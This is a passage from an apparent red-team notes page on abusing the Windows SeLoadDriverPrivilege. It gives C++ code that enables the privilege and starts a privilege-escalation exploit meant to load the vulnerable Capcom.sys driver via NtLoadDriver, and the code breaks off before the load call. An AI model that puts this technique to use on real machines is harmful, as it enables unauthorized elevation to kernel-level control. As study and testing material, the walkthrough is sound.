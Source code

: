 ```cpp
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	system("cmd");
    return 0;
}
```
{% endcode %}

We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](<../../.gitbook/assets/Screenshot from 2018-12-17 22-45-54.png>)

### Capcom.sys Driver Exploit

To further prove the `SeLoadDriverPrivilege` is dangerous, let's exploit it to elevate privileges.

Let's build on the previous code and leverage the Win32 API call `ntdll.NtLoadDriver()` to load the malicious kernel driver `Capcom.sys`. Note that lines 55 and 56 of the `privileges.cpp` are:

```cpp
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
```

The first one declares a string variable indicating where the vulnerable Capcom.sys driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service) when executing the exploit:

{% code title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
```